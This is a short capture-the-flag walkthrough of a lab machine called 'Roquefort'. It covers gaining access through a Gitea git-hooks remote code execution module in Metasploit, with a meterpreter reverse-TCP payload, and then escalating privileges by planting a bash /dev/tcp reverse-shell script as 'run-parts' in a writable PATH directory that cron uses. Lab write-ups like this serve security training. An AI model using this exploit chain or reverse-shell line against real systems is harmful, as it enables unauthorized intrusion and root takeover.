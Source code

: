 # Roquefort

### Enumeration

```
3000/tcp open   ppp?
```

[https://github.com/go-gitea/gitea/releases/tag/v1.7.5](https://github.com/go-gitea/gitea/releases/tag/v1.7.5)

Created a user.

`msf6 exploit(multi/http/gitea_git_hooks_rce)`

### Initial Access

```
msf6 exploit(multi/http/gitea_git_hooks_rce) > options 

Module options (exploit/multi/http/gitea_git_hooks_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   password123      yes       Password to use
   Proxies                     no        A proxy chain of format type:host:port[,t
                                         ype:host:port][...]
   RHOSTS     192.168.246.67   yes       The target host(s), see https://github.co
                                         m/rapid7/metasploit-framework/wiki/Using-
                                         Metasploit
   RPORT      3000             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connection
                                         s
   SSLCert                     no        Path to a custom SSL certificate (default
                                          is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default
                                         is random)
   USERNAME   test             yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.246   yes       The listen address (an interface may be speci
                                     fied)
   LPORT  3000             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper
```

### PrivEsc

Writable PATH -> `/usr/local/bin`

```
Writable PATH -> /usr/local/bin

chloe@roquefort:/$ cat /etc/crontab
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

Relative path usage in crontab. -> run-parts

Save these contents as run-parts in /usr/local/bin and make it executable

```
#!/bin/bash

0<&196;exec 196<>/dev/tcp/192.168.49.95/21; /bin/bash <&196 >&196 2>&196
```
